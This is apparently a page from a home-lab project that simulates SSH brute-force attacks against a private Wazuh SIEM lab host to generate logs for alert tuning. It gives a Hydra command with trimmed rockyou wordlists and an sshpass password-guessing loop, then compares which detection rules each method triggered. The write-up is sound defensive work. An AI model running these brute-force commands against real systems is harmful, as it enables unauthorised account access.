










[← Back to README](../README.md)

# Phase 5: Attack Simulation / Test Log Generation

**Goal:** Generate realistic SSH brute-force traffic against the lab to produce meaningful data for tuning, using two different methods for comparison.

## Method A — Hydra (from Kali)

A small, deliberately trimmed username/password wordlist was built to keep the attack fast and within reasonable data-usage limits (the lab was run on a mobile data connection, not Wi-Fi):

```bash
cat << EOF > sshbf.txt
wazuh
root
admin
user
EOF

head -n 10 /usr/share/wordlists/rockyou.txt > passwordssshbf.txt
```







An initial run with the full 1,000-line password list and `-t 4` threads was estimated by Hydra at **~52 hours to complete** (SSH's per-attempt cryptographic handshake makes brute-forcing inherently slow, unlike lighter protocols). The wordlist was trimmed to 10 lines and thread count raised to `-t 16`, reducing runtime to under 30 seconds:

```bash
hydra -L sshbf.txt -P passwordssshbf.txt -t 16 192.168.56.104 ssh
```

```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 40 login tries (l:4/p:10)
1 of 1 target completed, 0 valid password found
```



## Method B — Manual scripted loop (from `endpoint-linux-wazuh`)

A second, sequential (non-parallel) attack was scripted using `sshpass` to compare detection behavior against Hydra's parallel approach:

```bash
sudo apt install -y sshpass
```

```bash
#!/bin/bash
PASSWORDS=("123456" "password" "admin123" "qwerty" "letmein" "wazuh123" "toor" "changeme" "wazuh1" "test123")
for pw in "${PASSWORDS[@]}"; do
    echo "Trying password: $pw"
    sshpass -p "$pw" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=3 \
      wazuh@192.168.56.104 "echo connected" 2>&1 | grep -v "Warning"
done
```

## Result — detection comparison

The two attack styles triggered **different rule sets** in Wazuh:

| Attack method | Pattern | Rules triggered |
|---|---|---|
| Hydra (parallel, 16 threads) | Burst of simultaneous attempts | `2502` – *syslog: User missed the password more than one time* (level 10) |
| Manual script (sequential) | One-at-a-time with small delays | `5763` – *sshd: brute force trying to get access to the system* (level 10), `5551` – *PAM: Multiple failed logins in a small period of time* (level 10) |

Both methods also generated large volumes of the low-severity **rule 5710** (*sshd: Attempt to login using a non-existent user*, level 5) — this became the central "noise" problem addressed in the tuning phase.






Wazuh's MITRE ATT&CK mapping automatically classified the traffic under **T1110 (Brute Force)** / **Password Guessing / SSH**, confirming the SIEM's built-in threat-intelligence enrichment.

**Result:** ~1,984 authentication-failure events were generated across both methods, providing a realistic, high-volume dataset for the tuning phase.

---

[← Previous: Endpoint Deployment](02-endpoint.md) · [Next: Alert Tuning →](04-alert-tuning.md)
